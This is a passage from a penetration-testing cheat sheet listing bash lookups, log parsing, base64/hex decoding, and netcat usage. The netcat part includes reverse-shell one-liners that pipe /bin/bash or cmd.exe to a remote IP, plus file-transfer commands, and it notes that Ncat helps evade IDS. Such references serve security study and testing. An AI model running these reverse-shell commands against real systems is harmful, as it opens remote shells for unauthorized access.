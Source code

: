     -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values
       
        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
        
    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
         
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
        
        or
        
        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
        
    -   Netcat for Banner Grabbing:
    
        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS
